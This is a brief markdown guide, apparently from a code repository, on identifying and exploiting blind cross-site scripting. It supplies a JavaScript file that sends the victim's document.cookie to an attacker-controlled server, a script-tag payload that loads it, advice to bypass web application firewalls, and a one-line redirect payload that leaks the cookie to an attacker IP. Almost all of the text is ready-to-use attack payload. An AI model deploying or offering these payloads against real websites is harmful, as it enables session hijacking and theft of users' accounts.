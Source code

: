 # Identifing blind xss
### 1. Host a temorary http server(attacker server) with below file and paste the below code inside as cookie.js

``` var request = new XMLHttpRequest();<br/>
request.open('GET', 'http://attacker-server-ip/?test='+document.cookie, true);<br/>
request.send() ``` <br/>

### 2. Submit a payload which will render the above script
``` <script src="http://attacker-server-ip/cookie.js"></script> ```
Try to bypass the filters if there is any WAF

### 3. You will receive cookie on attacker-server

### Directly stealing the cookie(this may or may not work and try it with single quote & double quote and also bypass filter protection if WAF exist)
<script>document.location='http://attacker-ip/?c='+document.cookie</script>

